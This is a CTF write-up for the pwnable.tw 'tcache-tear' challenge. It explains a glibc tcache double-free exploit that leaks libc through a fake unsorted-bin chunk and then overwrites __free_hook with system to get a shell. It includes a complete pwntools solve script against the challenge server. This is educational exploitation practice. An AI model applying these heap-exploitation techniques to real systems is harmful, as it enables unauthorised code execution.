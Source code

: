 # pwnable.tw - tcache-tear

Original challenge link: https://pwnable.tw/challenge/#33

##  Overview

We can enter a name, and can malloc upto 0xff bytes, and free the pointer. We are limited to handling 1 heap pointer only. However, as the glibc version is old, it has no protection for double free on tcache chunks. It asks for malloc size, and reads input_size-0x10 number of bytes. This results in integer underflow and it reading very large number of bytes, giving us buffer/heap overflow. 


## Exploit
A bit of tcache info is mentioned [here](../tcache%20notes.md).

First we need to leak some sort of heap address. Its full relro, so we can't overwrite GOT. The goal becomes to write a libc address in the bss address where name is stored.

First, we use double free to inject arbitrary address in tcache - 
```py
malloc(20) # def malloc(size, content=b"x")
free()
free()
malloc(20, p64(name_ptr))
malloc(20)
malloc(20, b"overwrite_name!!")
```
Let's say the first malloc(20) got allotted addr A. free() will put addr A in tcache 0x20 bin. The next free will again put addr A in tcache 0x20 bin, and *A will have address of itself (linked list logic).

Now when we malloc, we get allotted addr A, but tcache still has an entry to A. When we write something at A, tcache will parse it as next address in the freed chunks linked list. So when we write name_ptr at that address, we basically make tcache like this - 
```
0x20 Bin -> A -> (name_ptr)
```
If you malloc twice now, you will get name_ptr as return addr of malloc, and our given data will be written there.

With this we have write what where primitive. We also have almost no limit to write size due to integer underflow if we specify size < 16. 

To get a libc leak, we focus on the fact that when a tcache eligible chunk is freed, it gets a heap pointer to tcache struct written in it. But when an unsorted bin eligible chunk is freed, glibc writes a pointer to main_arena there, giving us a relative libc address. 

But for free() to put a chunk in unsorted bin, it has to be atleast > 1032 bytes in size. Since we can't malloc that big chunk, we use our overflow primitve to create a fake chunk within name location in bss, so that when free is called on that chunk, a libc address is placed there, and we can print it.


```py
malloc(10, flat(
    p64(0x0),                   #name
    p64(0x421),                 #name+8
    b"A"*0x18,                  #fill remaining name
    p64(name_ptr+16),           #bss malloc saved ptr
    b'A' * (0x410-0x18-8),      #fill remaining big chunk
    p64(0),                     #padding 
    p64(0x21),                  #next chunk size
    b'B' * 0x10,                #next chunk content
    p64(0),                     #oadding
    p64(0x21)                   #next chunk in use bit set
))
```
This gets overwritten at name_loc, and we carefully set current chunk pointer to name+16. free goes to name+16, reads metadata bytes before it claiming it to be 0x421 byte long chunk, it goes name+0x420, and reads metadata. Prev chunk flag has to be set and next chunk also should be a valid chunk, so we set a final terminating header.

|Address|Content	|Purpose|
|-------|-----------|------------------|
0x602068|	p64(0x421)|	Fake Chunk 1 Size: The chunk to be freed into the unsorted bin.
...	...	|(padding)|
0x602488|	p64(0x21)|	Terminator Chunk 1 Size: Marks Fake Chunk 1 as "in use".
0x6024a8|	p64(0x21)|	Terminator Chunk 2 Size: Marks Terminator Chunk 1 as "in use". 

```py
free()
p.sendlineafter(b"choice :", b"3")
p.recvuntil(b":")
p.recv(0x10)
libc.address = u64(p.recv(8))-0x3ebca0
```
This gives us libc leak when chunk is freed. So now, we can just overwrite __free_hook with system, since we control which pointer is passed to free().

```py
malloc(50)
free()
free()
malloc(50, p64(libc.sym["__free_hook"]))
malloc(50)
malloc(50, p64(libc.sym.system))
```

Finally, we create a heap pointer with /bin/sh, and pass it to free and get the shell- 
```py
malloc(80, "/bin/sh;")
free()
```


## Solve Script
```py
from pwn import *
import time
exe = ELF("./tcache_tear_patched")
libc = ELF("./libc-18292bd12d37bfaf58e8dded9db7f1f5da1192cb.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['wt.exe', 'wsl.exe', '-d', 'kali-linux']

def conn():
    if args.REMOTE:
        return remote("chall.pwnable.tw", 10207)
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r)
        time.sleep(2)
    return r

p = conn()
name_ptr = 0x602060
def malloc(size, content=b"x"):
    p.sendlineafter(b"choice :", b"1")
    p.sendafter(b"Size:", str(size).encode())
    p.sendafter(b"Data:", content)

def free():
    p.sendlineafter(b"choice :", b"2")

#p.sendline(p64(0x0)+p64(0x421))
p.sendline(b"abc")
malloc(20)
free()
free()
malloc(20, p64(name_ptr))
malloc(20)

malloc(10, flat(
    p64(0x0),
    p64(0x421),
    b"A"*0x18,
    p64(name_ptr+16),
    b'A' * (0x410-0x18-8),
    p64(0),
    p64(0x21),
    b'B' * 0x10,
    p64(0),
    p64(0x21)
))
free()
p.sendlineafter(b"choice :", b"3")
p.recvuntil(b":")
p.recv(0x10)
libc.address = u64(p.recv(8))-0x3ebca0

malloc(50)
free()
free()
malloc(50, p64(libc.sym["__free_hook"]))
malloc(50)
malloc(50, p64(libc.sym.system))


malloc(80, "/bin/sh;")
free()

p.interactive()

```